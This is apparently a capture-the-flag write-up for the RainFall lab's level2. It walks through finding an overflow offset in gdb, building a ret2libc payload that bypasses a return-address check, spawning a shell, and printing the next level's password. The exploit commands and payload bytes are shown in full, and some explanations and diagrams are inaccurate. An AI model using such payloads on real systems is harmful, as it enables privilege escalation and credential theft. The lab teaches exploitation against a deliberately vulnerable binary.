




# level2

```sh
➜  ~ ssh level2@127.0.0.1 -p 4242
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on 10.0.2.15:4242
level2@127.0.0.1's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level2/level2
level2@RainFall:~$
```

The ritual :

- `pwd`: `/home/user/level2`
- `id`: `uid=2021(level2) gid=2021(level2) groups=2021(level2),100(users)`
- `ls -la`:
```sh
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
```

_The good habits_

```sh
level2@RainFall:~$ ./level2
The One Piece is real
The One Piece is real
level2@RainFall:~$ ./level2 "Kaizoku Oni Ore Wa Naru"


level2@RainFall:~$ ./level2
The One Piece is real
The One Piece is real
level2@RainFall:~$
```

- The argument is not used, but it open the standard input and print what we give to it.

## Decompilation time

```sh
➜  ~ scp -P 4242 level2@127.0.0.1:/home/user/level2/level2 /Users/mayoub/Desktop
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on 10.0.2.15:4242
level2@127.0.0.1's password:
level2                                                                                                                                                                    100% 5403     1.2MB/s   00:00
➜  ~
```



- It only call a function called `p`, let's see what it does :



- Again we can see the `gets` function, we can exploit it BUT with a different way instead of the previous level.
- The function checks if `unaff_retaddr & 0xb0000000) == 0xb0000000` and if it's true, it calls `printf("(%p)\n",unaff_retaddr)` then exit. And we can suppose we are not enter this condition and the functions `puts` and `strdup` are called.

## Exploit

- What happened if we give a string over 76 characters ?

```sh
level2@RainFall:~$ ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAJAAAAAAAA
Segmentation fault (core dumped)
level2@RainFall:~$
```

It crash.

# Vulnerability : <u>Ret2libc</u>

## What is `ret2libc` ?

`ret2libc` is a technique used to bypass the `NX` bit protection. It's used when the stack is not executable, so we can't inject shellcode. The idea is to call functions from the `libc` library to execute our shell. The `libc` library is already loaded in the memory, so we can use it to execute our shell. The `libc` library contains a lot of functions that can be used to execute a shell, like `system`, `execve`, `dup2`, `str_bin` and `exit`. The `ret2libc` technique is used to call these functions.

> The `NX` protection : [`NX` (No-eXecute)](https://fr.wikipedia.org/wiki/NX_Bit) bit is a security feature that marks certain areas of memory as non-executable, preventing code from running in those regions. This helps mitigate buffer overflow attacks by ensuring that injected code cannot be executed. And this is what we can see when we are loggued at the user `level2` -> `NX disabled`, it should be an indication for completing this level.

### _How to use `ret2libc` ? Let's go step by step._

1. **<u>Finding the offset</u>** : the offset of the `eip` register to know how many characters we need to overflow the buffer.
2. **<u>Finding the address of the `system` function</u>** : the address of the `system` function in the `libc` library (opposed to the previous [level](https://github.com/Nimpoo/rainfall/tree/main/level1), we needed to find the address of the `system` function).
3. **<u>Finding the address of the `exit` function</u>** : the address of the `exit` function in the `libc` library.
4. **<u>Finding the address of the `/bin/sh` string</u>** : the address of the `/bin/sh` string in the `libc` library.
5. **<u>Overriding the protection</u>** : a condition protect the `ret2libc` technique, we need to override it.
6. **<u>The final payload</u>** : the final payload to exploit the program.

## 1. Finding the offset

From now on, we start from the beginning for more clarity.

For finding the offset, we use the tool [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?).

**How it works ?**

- It generates a unique pattern of a given length (a pattern with 0 repetition), here we will use 100 characters :



- And we launch `gdb` with the binary :

```sh
level2@RainFall:~$ gdb ./level2
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb)
```

**What is `gdb` ?**

- [`gdb`](https://fr.wikipedia.org/wiki/GNU_Debugger) is the GNU debugger, it allows you to see what is going on inside a program while it executes - or what a program was doing at the moment it crashed.

**What exactly we can see ?**

- We can see the `registers`, the `stack`, the `memory` and the `source code` in `assembly code`. We can see ALL ABOUT THE PROGRAM.

For exemple, we can `disassemble` the `main` function :

```sh
(gdb) disass main
Dump of assembler code for function main:
   0x0804853f <+0>:	push   %ebp
   0x08048540 <+1>:	mov    %esp,%ebp
   0x08048542 <+3>:	and    $0xfffffff0,%esp
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
(gdb)
```

- We can see the function we have decompiled before, but in `assembly code`.

- It's a decompiler so, but with more informations than `ghidra`, we can see the `registers` and the `stack` and the `memory`, set `breakpoints` and more, this is what `gdb` is.

**Okay, but what we need to see here with `gdb` ?**

- We have a unique pattern of 100 characters, we will give it to the program and it will crash (normal) AND, we will see the `eip` register.

**Why this register `eip` especially ?**

- The `eip` register is the `instruction pointer`, it contains the address of the next instruction. When we overflow the buffer, we will overwrite the `eip` register. This the start point of the exploitation. We need to know THE character that overwrite the `eip` register before it crash. By using a unique pattern, we can find the offset of the `eip` register, it's a different method from the previous [level](https://github.com/Nimpoo/rainfall/tree/main/level1) for finding the offset.

## _**Okay, now we have the cards in hand and know the objectif of thi step : <u>Using the unique pattern to find the offset of the `eip` register</u>.**_

- We give the unique pattern to the program using `gdb` :

```sh
(gdb) run
Starting program: /home/user/level2/level2
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb)
```

- Okay, the program crash, we can see the `eip` register to constat where in the string the program crash :

```sh
(gdb) info register
eax            0x804a008	134520840
ecx            0x0	0
edx            0xbffff6ac	-1073744212
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff700	0xbffff700
ebp            0x63413563	0x63413563
esi            0x0	0
edi            0x0	0
eip            0x37634136	0x37634136
eflags         0x210282	[ SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb)
```

- And now, we past the `eip` address <u>`0x37634136`</u> (the adress of the character that overwrite the `eip` register) to the tool to find the offset :



- That mean, the 80th character overwrite the `eip` register, **the offset is 80**.

### _How we can start our payload ?_

- Even than the previous [level](https://github.com/Nimpoo/rainfall/tree/main/level1), we write a python script for overflooding the buffer, and get stay the standrad input open :

```sh
python -c 'print "A" * 80'; cat
```

### _Mission 1 accomplished ! ✅_

## 2. Finding the address of the `system` function

- With the command `print` in `gdb`, we can find the address of the `system` function, BUT we can print this address only when the program is running (or when the program crash to see the last status of the registers).

- Considering we print the address just after the program crash, we can see the address of the `system` function :

```sh
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb)
```

### _Okay, that's was easy !_

Now we have this payload :

```sh
python -c 'print "A" * 80 + "\x60\xb0\xe6\xb7"'; cat
```

## 3. Finding the address of the `exit` function

For more comprehension, we have to make a brief of the `ret2libc` technique.


- *The `stack` **BEFORE** the `ret2libc` technique :*
```lua
<high address>
+-----------------------+  <-- Top of the stack
|    Local variables    |  <-- Local variables of the function
+-----------------------+
|     Return address    |  <-- Address to return to after execution
+-----------------------+
|     Base pointer      |  <-- Base pointer (ebp) of the calling function
+-----------------------+
|   Function arguments  |  <-- Arguments passed to the function
+-----------------------+
|   Free space (stack)  |  <-- Area used to push more data
+-----------------------+
|                       |
|                       |
.         etc...        .
.                       .
<low address>
```
In order :
1. The **local variables** at the top
2. The **return address** (this is where the `eip` will point once the function is finished)
3. The base pointer `ebp` of the calling function
4. The arguments passed to the function

<br />

- *The `stack` **AFTER** the `ret2libc` technique :*
```lua
<high address>
+------------------------------+  <-- Top of the stack
|       "/bin/sh" string       |  <-- Argument for system() ("/bin/sh" string)
+------------------------------+
|     Address of system()      |  <-- EIP redirected to system()
+------------------------------+
|   4 empty bytes (padding)    |  <-- Stack alignment
+------------------------------+
|       Address of exit()      |  <-- Address of the exit() function
+------------------------------+
|      Old return address      |  <-- Buffer overwritten here
+------------------------------+
|                              |
|                              |
.            etc...            .
.                              .
<low address>
```
After the `ret2libc` technique :
1. The **buffer** has been overwritten here, replacing the **old return address** with **new instructions**
2. The address of the `system()` function points to the `"/bin/sh"` string to execute a **shell** (we seeing that later)
3. **The 4 empty bytes** are used to maintain the correct stack alignment
4. The address of the `exit()` function allows for a clean exit after the execution of `system()`

**Why we need the address of the `exit` function ?**

- At the end of the `system` function, the program will not exit, so we need to call the `exit` function to exit the program, or even 4 randoms bytes of padding to align the stack. If we don't do that, the program will crash.

Again, we consider the program crash, after we found the address of `system`, we can see the address of the `exit` function :

```sh
(gdb) print exit
$1 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
(gdb)
```

### _Okay, we have the address of the `exit` function !_

Now we have this payload :

```sh
python -c 'print "A" * 80 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7"'; cat
```

But we can also add 4 randoms bytes of padding to align the stack :

```sh
python -c 'print "A" * 80 + "\x60\xb0\xe6\xb7" + "AAAA"'; cat
```

The difference is when the the function `system` is finished, the program will not exit and just crash. Because of the `return` of the `system` function is just a random address.

## 4. Finding the address of the `/bin/sh` string

- We can find the address of the `/bin/sh` string in the `libc` library. We can see all the libraries loaded in the memory with the command `info proc map` :

```sh
(gdb) info proc map
process 2742
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/user/level2/level2
	 0x8049000  0x804a000     0x1000        0x0 /home/user/level2/level2
	 0x804a000  0x806b000    0x21000        0x0 [heap]
	0xb7e2b000 0xb7e2c000     0x1000        0x0
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0
	0xb7fd9000 0xb7fdd000     0x4000        0x0
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb)
```

**What do exactly this command ?**

- `info` : Display information about something concerning the program
- `proc`: Displays information about the process in which the program is running
- `map`: A sub-argument of `proc`, it lists the memory address ranges reserved or mapped for different sections of the process, including program code, data, stack, heap, and shared libraries like `libc`

We can see the lib `/lib/i386-linux-gnu/libc-2.15.so` has a big size, we can supposed the string `/bin/sh` is in this library. We find the string with the command `find` in `gdb` :

```sh
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
(gdb)
```

- the `find` command works like -> `find <start-address>, <end-address>, <search-expression>` : it searches for a `string`, a hexadecimal value (`address`) or an integer in memory between two addresses.

- We can ensure the address is correct with the command `x/s` :

```sh
(gdb) x/s 0xb7f8cc58
0xb7f8cc58:	 "/bin/sh"
(gdb)
```

### _Okay, we have the address of the `/bin/sh` string !_

Now we have this payload :

```sh
python -c 'print "A" * 80 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"'; cat
```

## 5. Overriding the protection

- At this point, the `ret2libc` attack is ready, hear's what happens if we give the payload to the program :

```sh
level2@RainFall:~$ (python -c 'print "A" * 80 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"'; cat) | ./level2
(0xb7e6b060)
[STANDARD INPUT OPEN]
level2@RainFall:~$
```

This address is the address of the `system` function. In the `p` function, there is a check on the return address stored in the `eip` register. This check is done using [this lines](https://github.com/Nimpoo/rainfall/tree/main/level2/source/p.c) :

```c
if ((unaff_retaddr & 0xb0000000) == 0xb0000000)
{
  printf("(%p)\n", unaff_retaddr);
  exit(1);
}
```

- `unaff_retaddr` : C'est l'adresse de retour (retour à l'adresse `eip`) après l'exécution de la fonction `p`
- The program checks if this address falls within a specific range of addresses, those starting with `0xb`. If it does, it means that the return address points to a sensitive area, likely within the program's memory space (which could indicate an exploitation attempt), and the program immediately terminates with `exit(1)`

In our case, the address of the `system()` function starts with `0xb` (which is common in `libc` addresses), so this check fails and the attack is blocked.

**How can we bypass this condition ?**

To bypass this check, we need to ensure that the program does not detect that the return address starts with `0xb`. The idea is to pass a return address that does not trigger this condition, i.e., an address that does not start with `0xb`. One simple way to do this is to redirect execution to a `ret` instruction already present in the program. The `ret` instruction allows execution to continue, and we can use it to "skip" the security check. And we can use the address of the `main` function to do that.

If we take our previous scheme of the stack by adding the address of the `main` function :

```lua
<high address>
+------------------------------+  <-- Top of the stack
|       "/bin/sh" string       |  <-- Argument for system() ("/bin/sh" string)
+------------------------------+
|     Address of system()      |  <-- EIP redirected to system()
+------------------------------+
|   4 empty bytes (padding)    |  <-- Stack alignment
+------------------------------+
|       Address of exit()      |  <-- Address of the exit() function
+------------------------------+
|  Address of ret (ret main)   |  <-- Address of a `ret` instruction in main (bypass the check)
+------------------------------+
|      Old return address      |  <-- Buffer overwritten here
+------------------------------+
|                              |
|                              |
.            etc...            .
.                              .
<low address>
```

1. Return address (`ret` `main`): Here we place the address of a `ret` instruction present in the `main` function, such as `0x0804854b`, this address does not start with `0xb`, so it bypasses the security condition
2. Address of `system()`: Once the security condition is bypassed, execution will be redirected to the `system()` function in the `libc`, using this address
3. Argument `/bin/sh`: The argument for the `system()` function, here a string representing a `shell` (`/bin/sh`), which will be executed
4. Address of `exit()`: After executing `system()`, we call `exit()` so that the program terminates cleanly without causing a crash (we can also place 4 random bytes to align the stack)

_Let's bypass the protection !_

```sh
(gdb) disass main
Dump of assembler code for function main:
   0x0804853f <+0>:	push   %ebp
   0x08048540 <+1>:	mov    %esp,%ebp
   0x08048542 <+3>:	and    $0xfffffff0,%esp
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
(gdb)
```

Let's add the address of the `ret` of the `main` function to the payload :

```sh
python -c 'print "A" * 80 + "\x4b\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"'; cat
```

## 6. The final payload

### _And here we are, the final payload :_

```sh
python -c 'print "A" * 80 + "\x4b\x85\x04\x08" +  "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"'; cat
```

If we decompose for brief : `<overflowing string> + <ret instruction's address> + <system function's address> + <xit function's address> + </bin/sh string's address>`

## _It's time to exploit the program_

```sh
level2@RainFall:~$ (python -c 'print "A" * 80 + "\x4b\x85\x04\x08" +  "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"'; cat) | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAKAAAAAAAAAAAAK`�����X��
[...NO CRASH...]
```

## _No crash... okay good sign. `Who am I ?`_

```sh
level2@RainFall:~$ (python -c 'print "A" * 80 + "\x4b\x85\x04\x08" +  "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"'; cat) | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAKAAAAAAAAAAAAK`�����X��
whoami
level3
```

# _LEZGOOOOOOOOOOO 🚀🚀🚀_

```sh
level2@RainFall:~$ (python -c 'print "A" * 80 + "\x4b\x85\x04\x08" +  "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"'; cat) | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAKAAAAAAAAAAAAK`�����X��
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

# _WE HAVE THE PASSWORD_

Let's do the final step for passing the level.

```sh
level2@RainFall:~$ su level3
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
level3@RainFall:~$
```

# level2 complet !

